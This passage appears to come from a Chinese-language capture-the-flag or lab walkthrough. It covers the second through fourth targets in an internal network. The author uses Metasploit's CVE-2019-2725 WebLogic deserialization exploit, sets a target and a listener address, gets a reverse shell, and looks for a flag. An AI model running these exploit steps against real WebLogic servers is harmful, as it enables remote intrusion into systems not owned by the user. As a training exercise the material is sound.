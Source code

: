 这样就证明了我们的内网确实有三个靶机在7001端口开放，所以就发现了第2到4个靶标

### 攻破2、3、4靶标
* 由于我们处于上帝视角，我们直到第二层主机存在weblogic漏洞，所以我们直接通过exploit进行攻击
*  搜索weblogic漏洞：
```bash
search cve-2019-2725
use exploit/multi/weblogic/weblogic_deserialization_asyncresponseservice ## 选择weblogic_deserialization_asyncresponseservice这个exp
show options ## 查看参数
set RHOSTS 192.170.84.2 ## 攻击目标
set lport 7001
set lhost 192.168.70.7
run -j
```
![](./images/该第三个靶机启用参数.png)
![](./images/启用wda获得第三个反弹shell.png)
```bash
sessions -i 3

ls /tem ## 查看flag
```